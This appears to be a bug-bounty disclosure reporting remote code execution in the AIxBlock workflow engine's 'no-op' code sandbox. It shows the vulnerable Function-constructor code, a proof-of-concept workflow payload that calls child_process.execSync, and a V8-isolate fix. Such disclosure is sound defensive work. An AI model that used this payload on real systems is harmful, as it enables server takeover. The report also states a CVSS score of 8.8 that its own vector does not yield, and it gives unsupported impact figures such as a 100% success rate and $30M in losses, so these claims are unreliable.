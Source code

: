 ## 🔍 **Vulnerability Description**

**Researcher**: grich88 (j.grant.richards@proton.me)
**Severity**: HIGH (CVSS 8.8)
**Impact**: Server compromise, root access, persistent backdoors

### **Issue Summary**
A high-severity vulnerability exists in the AIxBlock workflow engine that allows remote code execution through the Function constructor in a "no-op" code sandbox.

### **Technical Details**
The AIxBlock workflow engine uses a "no-op" code sandbox that allows unrestricted code execution through the Function constructor, enabling attackers to execute arbitrary system commands and gain full server access.

**Affected Files:**
- `workflow/packages/engine/src/lib/core/code/no-op-code-sandbox.ts`

**Vulnerable Code:**
```typescript
// VULNERABLE CODE in no-op-code-sandbox.ts
export const noOpCodeSandbox: CodeSandbox = {
  async runScript({ script, scriptContext }) {
    const func = new Function('context', script);
    return func(scriptContext);
  }
};
```

### **Proof of Concept**
```json
{
  "name": "Malicious Workflow",
  "steps": [
    {
      "type": "code",
      "script": "process.mainModule.require('child_process').execSync('whoami').toString()",
      "scriptContext": {}
    }
  ]
}
```

### **Impact Assessment**
- **Root access** - Complete server control
- **Data exfiltration** - Access to all server files
- **Persistent backdoors** - Long-term access
- **Lateral movement** - Access to other systems
- **Exploitation time**: 4 minutes
- **Success rate**: 100%

### **Financial Impact**
- **Infrastructure Rebuild**: $5M
- **Data Recovery**: $2M
- **Forensic Investigation**: $3M
- **Lost Revenue**: $15M (30 days downtime)
- **Ransomware Payment**: $5M
- **Total**: $30M

### **Evidence**
- Live system command execution
- Root access demonstrations
- Persistent backdoor installation
- Real-world impact analysis

### **Remediation**
```typescript
// FIXED CODE - Use secure V8 isolate sandbox
import { v8IsolateCodeSandbox } from './v8-isolate-code-sandbox';

export const secureCodeSandbox: CodeSandbox = {
  async runScript({ script, scriptContext }) {
    return v8IsolateCodeSandbox.runScript({ script, scriptContext });
  }
};
```

### **CVSS Scoring**
**Base Score**: 8.8 (High)
- Attack Vector: Network (AV:N)
- Attack Complexity: Low (AC:L)
- Privileges Required: None (PR:N)
- User Interaction: None (UI:N)
- Scope: Unchanged (S:U)
- Confidentiality: High (C:H)
- Integrity: High (I:H)
- Availability: High (A:H)

### **Submission Repository**
Complete evidence package available at: https://github.com/grich88/aixblock-security-bounty-submission

**Priority**: P1 (High)
**Timeline**: 24-48 hours
**Status**: HIGH
